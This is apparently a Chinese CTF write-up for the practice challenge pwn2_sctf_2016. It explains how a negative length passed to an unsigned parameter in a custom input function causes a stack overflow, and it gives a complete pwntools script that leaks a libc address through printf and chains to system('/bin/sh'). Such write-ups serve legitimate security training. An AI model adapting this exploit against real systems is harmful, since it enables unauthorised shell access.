


# 知识点

整数溢出、ret2libc


# 题目分析

1. 检查保护情况，32位程序，开启NX保护。

       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)

2. 拖入IDA分析，发现题目要求输入长度，然后读取指定长度内容到nptr。

   输入函数使用的是题目自己写的get_n，怀疑该函数存在漏洞。

   

3. 继续分析get_n函数，发现该函数的第二个长度参数是unsigend类型。

   因此，我们可以将长度设置为负数，这样就会读取很长的内容造成栈溢出漏洞。

   

4. 最后，利用printf函数泄露got表地址，进而ret2libc。


# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn2_sctf_2016')
io = remote('node4.buuoj.cn', '28675')
elf = ELF('./pwn2_sctf_2016')
libc = ELF('./libc-2.23.so')

main = elf.sym['_start']
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']

# integer overflow
io.sendline('-1')

# leak printf
payload = 'A' * 0x2C + 'dead'
payload += p32(printf_plt) + p32(main) + p32(printf_got)
io.sendline(payload)
printf_real = u32(io.recvuntil('\xf7')[-4:])

# libc
libc_base = printf_real - libc.sym['printf']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
io.sendline('-1')

payload = 'A' * 0x2C + 'dead'
payload += p32(system) + p32(main) + p32(binsh)
io.sendline(payload)

io.interactive()
```

